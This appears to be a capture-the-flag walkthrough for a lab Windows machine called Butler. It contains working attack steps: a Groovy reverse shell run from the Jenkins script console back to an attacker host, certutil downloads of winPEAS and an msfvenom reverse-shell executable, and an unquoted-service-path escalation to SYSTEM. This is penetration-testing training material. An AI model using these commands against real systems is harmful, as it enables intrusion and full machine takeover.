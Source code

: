 ### Butler machine by TCM

IP={target_IP}

Run nmap:

 `nmap -sC -sV -p- {target_IP} -oN scan.initial` 

```jsx
Nmap scan report for {target_IP}
Host is up (0.0035s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:e2:75:a0 (Oracle VirtualBox virtual NIC)
|_clock-skew: 3s
| smb2-time: 
|   date: 2024-04-22T17:19:25
|_  start_date: N/A

```

Visiting the web:

http://{target_IP}:8080/     we found the Jenkins login form

By bruteforce it we found the credentials: `jenkins/jenkins`

And we finally logged in to Jenkins

Go to http://{target_IP}:8080/script

and for reverse shell we gonna use revsh.groovy 

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76#file-revsh-groovy

```jsx
String host="{attacker_IP}";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Start `nc -lvnp 8044`

Execute the script in jenkins.

We get a shell.

---

Lets download winpeas.exe for privEscal.

Download and move your winpeas.exe to current folder.

Start python server

`python3 -m http.server 80` 

on the windows machine run command:

certutil.exe -urlcache -f http://{attacker_IP}:80/winpeas.exe winpeas.exe

run it `winpeas.exe`

We found out from the output of the file that `BootTime.exe has All Access and file permission Administrators [AllAccess]`  > Unquoted Service Path **vulnerability**

So, let go to our attacker machine and create reverse_tcp_shell exe: 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST={attacker_IP} LPORT=4444 -f exe -o Wise.exe`  

Move Wise.exe to our target machine:

`cd C:\Program Files (x86)\Wise` 

and execute `certutil.exe -urlcache -f http://{attacker_IP}:80/Wise.exe Wise.exe`

Let’s start our listener:

`nc -lvnp 4444`

---

Now we need to stop this service

`sc stop WiseBootAssistant`

Check that service is stopped

`sc query WiseBootAssistant`

now we can execute this service:

`sc start WiseBootAssistant`

And we got a rev shell as: 

`nt authority\system`